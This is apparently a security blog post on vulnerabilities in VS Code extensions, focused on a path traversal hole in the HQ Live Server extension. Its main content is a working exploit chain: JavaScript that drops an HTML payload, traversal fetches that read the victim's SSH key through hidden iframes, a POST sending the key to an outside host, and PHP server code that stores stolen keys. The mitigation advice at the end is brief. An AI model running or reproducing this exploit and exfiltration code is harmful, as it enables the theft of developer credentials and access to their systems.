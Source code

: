 ```yaml
---
layout: post
title:  "My Journey in Uncovering Vulnerabilities in VS Code Extensions: Protecting Your Supply Chain from Cyber Threats"
date:   2023-02-28 13:25:13 -0400
cover: vscode.jpeg
categories: vscode extension security
description: In this blog post, I’ll share my journey in identifying, analyzing, and testing VS Code extensions from a security breach perspective, and the creative recommendations I came up with to mitigate potential risks.
---
```


# Introduction

As a passionate developer, I've always been a fan of Visual Studio Code (VS Code). This popular text editor boasts over 14 million active users worldwide and offers a wide range of third-party extensions to enhance its functionality. However, I couldn't help but wonder about the potential security risks these extensions might pose if they're not thoroughly tested and validated. In this blog post, I'll share my journey in identifying, analyzing, and testing VS Code extensions from a security breach perspective, and the creative recommendations I came up with to mitigate potential risks.

# Why VS Code Caught My Eye as a Prime Target for Cyber Attacks

The immense user base of VS Code makes it an attractive target for malicious actors. Ensuring the security of third-party extensions is challenging, as developer machines often contain sensitive credentials and access to critical parts of the codebase. Moreover, these extensions run with user privileges and without sandboxing, making it easier for malicious actors to install harmful programs. As security experts warn about potential threats, it becomes crucial to scrutinize the legitimacy and security of VS Code extensions.

# My Ingenious Three-Phase Approach to Identifying and Mitigating Vulnerabilities

To assess the security of VS Code extensions, I devised a creative three-phase approach:

- Extension Selection: I handpicked extensions based on official statistics and community feedback.
- Vulnerability Identification: I thoroughly analyzed the selected extensions for potential security vulnerabilities.
- Vulnerability Exploitation: I attempted to exploit identified vulnerabilities, determining their impact and validating mitigation strategies.


# My Findings: Vulnerabilities and the Art of Exploitation

During my research, I came across a few articles that highlighted various vulnerabilities in extensions, ranging from path traversal to code execution [1][2]. Intrigued, I decided to focus on identifying similar vulnerabilities and devising ways to exploit them. I discovered that a common issue among these extensions is unsanitized inputs.

I found a vulnerability in the HQ Live Server extension, which allowed me to access sensitive files outside the server's root folder. To exploit this vulnerability and access the developer's SSH key, I designed a payload that would bypass challenges like cross-site scripting (XSS) protection and the same-origin policy. I created a multi-step process that involved downloading and executing the payload on the victim's system.

Here's the code snippet for creating and downloading my payload:

<pre> <code>const payload = `&lt;body&gt; &lt;script&gt; 
    for (let n = 0; n < ${maxNesting}; n++) {
    fetch('http://localhost:8080/'+'..%2f'.repeat(n)+'.ssh/id_rsa.pub')
    .then((res) => {if (res.status === 200) {
        res.text().then((data) => window.parent.postMessage(data, '*'));
    }
}); }&lt;/scr`+"ipt&gt;&lt;/bo"+"dy&gt;";

const fileName = `file_${Math.random()}.html`;
const a = document.createElement('a');
a.setAttribute('href', 'data:text/plain;charset=utf-8,' + encodeURIComponent(payload));
a.setAttribute('download', fileName);
a.style.display = 'none';
document.body.appendChild(a);
a.click();
document.body.removeChild(a);
</code>
</pre>

Next, I loaded the downloaded payload in an iframe:

<pre>
setTimeout(() => {
        for (let n = 0; n < maxNesting; n++) {
              const iframe = document.createElement('iframe');
              iframe.setAttribute('src', http://localhost:8080/${'..%2f'.repeat(n)}Downloads/${fileName});
iframe.setAttribute('style', 'width: 0px; height: 0px;')
document.body.appendChild(iframe);
}
}, 2000);
</pre>


Finally, I sent the obtained key to a malicious server:

<pre>
window.addEventListener('message', (event) => {
          const formData = new FormData();
          formData.append('data', event.data);
          fetch('https://welcometomywebpage.000webhostapp.com/data.php', {
            "method": "POST",
            "body": formData   
          });
      }, false);

</pre>

I also crafted server-side PHP code to receive the key and save it:
<pre>
&lt;?php
// Check if form is submitted with POST method
if ($_SERVER["REQUEST_METHOD"] == "POST") {

  // Get the data from the form
  $key = $_POST["data"];

  // Create a new file with a unique name
  $filename =  "details.txt";
  if (file_exists($filename)) {
		$handle = fopen($filename, 'a'); // open file in append mode
	} else {
		$handle = fopen($filename, 'w'); // create new file
	}

  // Open the file for writing
  $handle = fopen($filename, "a");

  // Write the data to the file
  fwrite($handle, "Key: \n$key\n");

  // Close the file
  fclose($handle);

  // Output a success message
  echo "Data saved to file!";
}
?&gt;
</pre>

To exploit the vulnerability, an attacker would follow these steps:

    Open VS Code and activate the vulnerable extension.
    Click on a malicious link provided by the attacker (e.g., https://welcometomywebpage.000webhostapp.com/).

# Paving the Way for a More Secure Future

My research emphasizes the importance of vigilantly testing and validating VS Code extensions to identify potential security vulnerabilities. As cyber threats evolve, it's crucial to adopt proactive measures to safeguard your supply chain.

I recommend automating the vulnerability testing process using available tools and custom test cases. This approach enables developers to swiftly identify and address security vulnerabilities before they pose a threat.

In conclusion, the security of third-party extensions must not be overlooked, as they can introduce significant risks to users and their systems. By identifying vulnerabilities and implementing robust mitigation strategies, developers can create a safer and more secure development environment.

## References:

[1] Trail of Bits. (2023). Escaping the VSCode extension sandbox. Retrieved from https://blog.trailofbits.com/2023/02/21/vscode-extension-escape-vulnerability/

[2] Snyk. (n.d.). Visual Studio Code extension security vulnerabilities deep dive. Retrieved from https://snyk.io/blog/visual-studio-code-extension-security-vulnerabilities-deep-dive/

